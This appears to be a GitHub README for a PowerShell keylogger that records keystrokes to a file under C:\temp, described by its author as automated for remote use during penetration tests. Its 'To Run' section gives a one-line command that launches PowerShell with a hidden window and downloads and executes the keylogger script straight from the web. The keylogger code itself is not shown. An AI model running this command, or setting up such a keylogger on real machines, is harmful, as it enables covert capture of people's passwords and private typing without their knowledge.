 # Keylogger

![Keylogger](https://ctrla1tdel.files.wordpress.com/2020/05/keylogger.gif)

## About

This is a simple automated Keylogger that records keystroke and outputs to file. 
The default location is C:\temp\Keylogger.txt

## To Run

Either download locally or run: 

powershell -nop -w hidden IEX("(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/securethelogs/Keylogger/master/Keylogger.ps1')")

This will run in the background until the C:\temp\keylogger.txt file is moved or renamed. Once the file is no longer present, Keylogger will end the Powershell session automatically. 


## Credit
This is a modfication of the script http://powershell.com/cs/blogs/tips/archive/2015/12/09/creating-simple-keylogger.aspx
I basically took Start-keylogger and automated it so that it can be used remotely during a pentest. 
